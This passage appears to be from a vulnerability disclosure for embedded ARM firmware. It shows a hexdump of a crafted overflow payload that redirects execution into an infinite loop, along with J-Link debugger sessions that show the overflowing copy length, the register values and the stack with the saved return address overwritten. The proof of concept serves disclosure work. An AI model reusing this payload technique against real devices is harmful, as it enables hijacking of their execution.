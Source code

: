 The following example payload results in program execution entering an infinite loop after the function starting at `+0x0F8E` exits:

```
hexdump -C workingloop.bin
00000000  50 70 00 20 00 00 00 20  00 00 eb 00 a5 a8 66 00  |Pp. ... ......f.|
00000010  00 00 aa 11 01 00 01 40  07 aa 4e ff ff ff ff ff  |.......@..N.....|
00000020  31 31 33 33 31 31 33 33  31 31 33 33 31 31 33 33  |1133113311331133|
*
00001100  00 00 c0 84 00 20 00 aa  bb cc a5 a8 66 00 00 00  |..... ......f...|
00001110  0b 00 04 20 01 00 07 24  24 24 24 24 00 bf 00 bf  |... ...$$$$$....|
00001120  00 bf 00 bf 00 bf 00 bf  00 bf 00 bf 00 bf fe e7  |................|
00001130  00 04 f1 a0 47 80 33 33  31 31 33 33 31 31 33 33  |....G.3311331133|
00001140  31 31 33 33 31 31 33 33  31 31 33 33 31 31 33 33  |1133113311331133|
*
00004140  31 31 33 33 31 31 33 7f  0b 31 33 33 31 31 33 33  |1133113..1331133|
00004150  31 31 33 33 31 31 33 33  31 31 33 33 31 31 33 33  |1133113311331133|
*
0000ccb0  31 31 33 33 31 31 33 33  31 31 33 9c 87 31 33 33  |11331133113..133|
0000ccc0  31 31 33 33 31 31 33 33  31 31 33 33 31 31 33 33  |1133113311331133|
*
00013900
```
The actual payload is included as an attachment.

The overflow and arbitrary code execution can be observed by setting breakpoints at the call where the overflow occurs and at the exit of the vulnerable function:
```
J-Link>setbp 0x1140 <--- function exit
Breakpoint set @ addr 0x00001140 (Handle = 1)
J-Link>setbp 0x1082 <--- vulnerable call
Breakpoint set @ addr 0x00001082 (Handle = 2)
J-Link>go
```

At the point the vulnerable call is executed, the length (R1) is `0x3149` and the destination buffer is at `0x2003FEDC`:

```
CPU is halted (PC = 0x00001082).
J-Link>regs
PC = 00001082, CycleCnt = 00EAAFB6
R0 = 2003FEDC, R1 = 00003149, R2 = 00003149, R3 = 2003FEDC
R4 = 00000000, R5 = 00000000, R6 = 00000000, R7 = 2003FED0
R8 = 9220C050, R9 = D08C106E, R10= 20030000, R11= 00000000
R12= ABA08801
SP(R13)= 2003FED0, MSP= 2003FED0, PSP= 00000000, R14(LR) = 00001F3F
```

The following shows the stack before executing the vulnerable call, the saved return address is noted:
```
J-Link>mem32 2003FED0,0x100
2003FED0 = 2003C944 2003C954 4EE54BA6 33333131
2003FEE0 = 33333131 33333131 33333131 33333131
2003FEF0 = 33333131 33333131 33333131 33333131
2003FF00 = 33333131 33333131 33333131 33333131
2003FF10 = 33333131 33333131 33333131 33333131
2003FF20 = 33333131 33333131 33333131 33333131
2003FF30 = 33333131 33333131 33333131 33333131
2003FF40 = 33333131 33333131 33333131 33333131
2003FF50 = 33333131 33333131 33333131 33333131
2003FF60 = 33333131 33333131 33333131 33333131
2003FF70 = 33333131 33333131 33333131 10333131
2003FF80 = 33333131 2003FF88 2003FFB0 FFFFFFB8
2003FF90 = 00000001 E000E100 00010000 00000001
2003FFA0 = ABA08801 000025DB 000026BE 29000000
```